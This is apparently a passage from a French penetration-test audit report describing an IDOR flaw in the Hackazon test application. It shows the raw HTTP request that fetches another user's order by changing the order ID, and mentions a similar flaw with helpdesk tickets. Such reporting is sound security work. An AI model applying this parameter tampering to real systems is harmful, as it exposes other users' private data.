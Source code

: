 L'audit a révélé une vulnérabilité IDOR (Insecure Direct Object Reference) dans l'application, permettant à un utilisateur d'accéder à des ressources qui ne lui appartiennent pas en modifiant des paramètres dans l'URL ou le corps des requêtes.

---


![iDOR commande utilisateur](images/screen_order.png)

Sur la capture d'écran ci-dessus, nous avons pu accéder à la commande d'un utilisateur tiers simplement en modifiant le numéro de commande dans l'URL. Voici quelques autres exemples similaires :

Voici la requête vulnérable:	 

```
GET /account/orders/10000021 HTTP/2
Host: hackazon.trackflaw.com
Cookie: PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXX; visited_products=%2C81%2C102%2C16%2C
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://hackazon.trackflaw.com/account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
				   
Priority: u=0, i
Te: trailers
```

- **Affichage des tickets du helpdesk :** En modifiant le numéro de ticket dans le corps d'une requête **POST**, nous avons pu accéder à un ticket appartenant à un autre utilisateur.
